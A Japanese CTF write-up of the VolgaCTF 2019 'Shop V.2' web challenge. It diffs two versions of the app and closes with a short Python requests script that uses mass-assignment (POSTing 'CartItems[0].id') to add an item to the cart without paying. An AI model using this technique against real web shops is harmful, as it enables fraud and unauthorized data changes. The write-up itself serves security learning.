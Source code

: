 # VolgaCTF 2019 "Shop V.2" writeup

## 問題

![問題](./001.png)

## 解法

これはいろいろ試したのだがShopを勘違いしていた僕にとって難しすぎた。

Shopと同様にwarファイルはダウンロードできた。
差分はShopContrller.javaとかごく一部。
単純に買えなくなったというだけの変更に見える。



```bash-statement
# cd shop-1.0.0
# find . -printf "%p %s\n" > ../shop-1.0.0_list.txt
# cd ../shop-1.0.1
# find . -printf "%p %s\n" > ../shop-1.0.1_list.txt
# diff ../shop-1.0.0_list.txt ../shop-1.0.1_list.txt
69c69
< ./WEB-INF/classes/application.properties 165
---
> ./WEB-INF/classes/application.properties 358
71c71
< ./WEB-INF/classes/data.sql 329
---
> ./WEB-INF/classes/data.sql 247
77c77
< ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 7402
---
> ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 6911
```

```WEB-INF/classes/application.properties``` を見るとデータベース関連のやつが追加されているので外部から接続できたりするのか？と思いJDBCやらでいろいろ接続しようとしたけどそもそもポートが空いてない。
接続試してみたのは
- 1433
- 3306
- 5432
- 5433
- 5434
- 5435
- 8082
- 9082
- 9092

のあたり。

```
spring.mvc.view.prefix=/WEB-INF/templates/
spring.mvc.view.suffix=.jsp
spring.datasource.driver-class-name=org.h2.Driver
spring.datasource.initialization-mode=always
server.address=127.0.0.1
spring.jpa.properties.hibernate.temp.use_jdbc_metadata_defaults=false
spring.jpa.hibernate.ddl-auto=create
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
```

ShopController.javaはbuyができなくなるという修正が加えられているだけ。

```text
99,112c99
<         final Product product = this.productDao.geProduct(productId);
<         if (product != null) {
<             if (product.getPrice() <= user.getBalance()) {
<                 user.setBalance(Integer.valueOf(user.getBalance() - product.getPrice()));
<                 user.getCartItems().add(product);
<                 this.userDao.update(user);
<                 redir.addFlashAttribute("message", (Object)"Successful purchase");
<                 return "redirect:profile";
<             }
<             redir.addFlashAttribute("message", (Object)"Not enough money");
<         }
<         else {
<             redir.addFlashAttribute("message", (Object)"Product not found");
<         }
---
>         redir.addFlashAttribute("message", (Object)"Too easy");
```


結局他の人のwriteupを見ないと分からなかった。
ポイントは以下の2点。
- POSTで変数を書き換える
- CartItemsの配列を追加する

writeupを参考にPythonのrequestsを使って書いていたのだけど、どうもうまく動かず。
結局Cookieを使ってセッション管理するときはrequests.Sessionを使った方が良いということが分かった。
配列をPOSTするときに「```CartItems[0]```」とかするのもポイントかな。
結局のところControllerの中で```getXXXX```で値が取れる場合、```XXXX```はGETパラメータやPOSTパラメータで書き換えることができるようだ。

```python
import requests

login_url = "http://shop2.q.2019.volgactf.ru/loginProcess"
target_url = "http://shop2.q.2019.volgactf.ru/profile"

payload0 = {'name': 'wani', 'pass': 'xxxxxxxx'}
payload1 = {'name': 'wani', 'CartItems[0].id': 4}

s = requests.Session()
r = s.post(login_url, data=payload0)
r = s.post(target_url, data=payload1)
print(r.text)
```

## 参考

- [VolgaCTF 2019 Qualifier - CTF](https://tuanlinh.gitbook.io/ctf/volgactf-2019-qualifier#web-shop-2)
